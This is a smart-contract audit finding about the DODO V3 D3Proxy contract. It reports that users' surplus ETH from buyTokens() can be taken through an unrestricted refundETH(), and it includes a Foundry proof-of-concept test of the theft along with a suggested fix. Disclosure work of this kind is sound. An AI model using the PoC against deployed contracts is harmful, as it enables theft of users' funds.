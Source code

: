 Mammoth Sky Baboon

medium

# D3Proxy.sol :: buyTokens() If a user sends an excess amount of ETH to purchase tokens, another user can misappropriate the surplus.

## Summary
**`buyTokens()`** enables the purchase of tokens with **ETH**, but users face uncertainty about the necessary **ETH** due to its calculated based on the **`quoteAmount`** (representing the desired token quantity). Consequently, users may send more **ETH** than required. 
This vulnerability can be exploited by a malicious actor who subsequently calls **`refundETH()`**, stealing the excess **ETH** of the user.
## Vulnerability Detail
Users utilize **`buyTokens()`** function to acquire tokens with **ETH**.
```Solidity
function buyTokens(
        address pool,
        address to,
        address fromToken,
        address toToken,
        uint256 quoteAmount,
        uint256 maxPayAmount,
        bytes calldata data,
        uint256 deadLine
    ) public payable judgeExpired(deadLine) returns (uint256 payFromAmount) {
        SwapCallbackData memory swapData;
        swapData.data = data;
        swapData.payer = msg.sender;

        if (fromToken == _ETH_ADDRESS_) {
            payFromAmount = ID3MM(pool).buyToken(to, _WETH_, toToken, quoteAmount, maxPayAmount, abi.encode(swapData));
            // multicall refund eth to user
        } else if (toToken == _ETH_ADDRESS_) {
            payFromAmount = ID3MM(pool).buyToken(address(this), fromToken, _WETH_, quoteAmount, maxPayAmount, abi.encode(swapData));
            _withdrawWETH(to, quoteAmount);
            // multicall withdraw weth to user
        } else {
            payFromAmount = ID3MM(pool).buyToken(to, fromToken, toToken, quoteAmount, maxPayAmount, abi.encode(swapData));
        }
    }
```
Users will send an approximate amount of **ETH** to purchase tokens, as the exact quantity is determined by the **`quoteAmount`**. Users can only specify a **`maxPayAmount`** to ensure they do not exceed their intended payment amount.
```Solidity
/// @param quoteAmount The amount of the toToken you want to buy
/// @param maxPayAmount The maximum amount of fromToken you would like to pay
```
Consequently, users often send more ETH than required to prevent transaction to revert.

The surplus **ETH** can be reclaimed through **`refundETH()`**.
```Solidity
function refundETH() external payable {
        if (address(this).balance > 0) {
            _safeTransferETH(msg.sender, address(this).balance);
        }
    }
```
It's crucial to note that the function lacks access control and is external, this can be exploited by malicious users or MEV bots that monitor the contract balance and, upon a positive balance, call the function to misappropriate user funds.

## POC
- To run the POC copy the code to **`D3Trading.t.sol`**.
- Execute **`forge test --match-test test_ExcedentOfETHisStolen`** in the terminal.
```Solidity
function test_ExcedentOfETHisStolen() public {

        address _ETH_ADDRESS_ = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

        SwapCallbackData memory swapData;
        swapData.data = "";
        swapData.payer = user1;

        //Send some ETH to the user
        vm.deal(user1, 2 ether);

        uint256 USER1_beforeBalanceETH = user1.balance;
        uint256 USER2_beforeBalanceETH = user2.balance;

        //Check the balances of the users
        assertEq(USER1_beforeBalanceETH, 2 ether);
        assertEq(USER2_beforeBalanceETH, 0 ether);
        
        //Buy tokens
        vm.prank(user1);
        uint256 receiveToToken = d3Proxy.buyTokens{value: 1 ether}(
        address(d3MM),
        user1,
        _ETH_ADDRESS_,
        address(token3),
        1 ether,
        30 ether,
        abi.encode(swapData),
        block.timestamp + 1000
        );

        //Check the balance of Contract
        uint256 contractBalance_ETH = address(d3Proxy).balance;
        assertGt(contractBalance_ETH, 0);

        //USER2 steals the excedent ETH of the USER1
        vm.prank(user2);
        d3Proxy.refundETH();

        uint256 USER2_afterBalanceETH = user2.balance;

        assertEq(contractBalance_ETH, USER2_afterBalanceETH);
    }
```
## Impact
Users may lose the surplus **ETH** sent to purchase tokens.
## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo/blob/ea7f786161113144562a900dbff31457ff7025ef/dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L116-L140
https://github.com/sherlock-audit/2023-12-dodo/blob/ea7f786161113144562a900dbff31457ff7025ef/dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L203-L207
## Tool used
Manual Review
## Recommendation
To address this issue, you can implement a solution by checking if **`address(this).balance > 0`**. If true, you can then call **`refundETH()`** within the same transaction. An adjustment to **`buyTokens()`** could be made as follows:
```diff
function buyTokens(
        address pool,
        address to,
        address fromToken,
        address toToken,
        uint256 quoteAmount,
        uint256 maxPayAmount,
        bytes calldata data,
        uint256 deadLine
    ) public payable judgeExpired(deadLine) returns (uint256 payFromAmount) {
        SwapCallbackData memory swapData;
        swapData.data = data;
        swapData.payer = msg.sender;

        if (fromToken == _ETH_ADDRESS_) {
            payFromAmount = ID3MM(pool).buyToken(to, _WETH_, toToken, quoteAmount, maxPayAmount, abi.encode(swapData));
            // multicall refund eth to user
        } else if (toToken == _ETH_ADDRESS_) {
            payFromAmount = ID3MM(pool).buyToken(address(this), fromToken, _WETH_, quoteAmount, maxPayAmount, abi.encode(swapData));
            _withdrawWETH(to, quoteAmount);
            // multicall withdraw weth to user
        } else {
            payFromAmount = ID3MM(pool).buyToken(to, fromToken, toToken, quoteAmount, maxPayAmount, abi.encode(swapData));
        }

+       if (address(this).balance > 0) {
+            refundETH();
+       }
    }
```
